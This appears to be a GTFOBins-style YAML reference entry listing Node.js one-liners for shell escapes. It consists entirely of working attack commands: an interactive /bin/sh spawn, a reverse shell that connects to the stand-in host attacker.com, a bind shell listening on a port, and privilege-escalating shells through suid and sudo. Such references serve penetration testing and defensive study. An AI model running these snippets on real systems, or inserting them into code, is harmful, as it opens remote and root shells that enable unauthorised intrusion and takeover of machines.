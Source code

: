 ```yaml
---
functions:
  execute-interactive:
  - code: 'node -e ''require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]});''

'
  reverse-shell-interactive:
  - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
    code: |
      export RHOST=attacker.com
      export RPORT=12345
      node -e 'sh = require("child_process").spawn("/bin/sh");
      net.connect(process.env.RPORT, process.env.RHOST, function () {
        this.pipe(sh.stdin);
        sh.stdout.pipe(this);
        sh.stderr.pipe(this);
      });'
  bind-shell-interactive:
  - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
    code: |
      export LPORT=12345
      node -e 'sh = require("child_process").spawn("/bin/sh");
      require("net").createServer(function (client) {
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
      }).listen(process.env.LPORT);'
  suid-enabled:
  - code: './node -e ''require("child_process").spawn("/bin/sh", ["-p"], {stdio: [0,
      1, 2]});''

'
  sudo-enabled:
  - code: 'sudo node -e ''require("child_process").spawn("/bin/sh", {stdio: [0, 1,
      2]});''

'
---
```

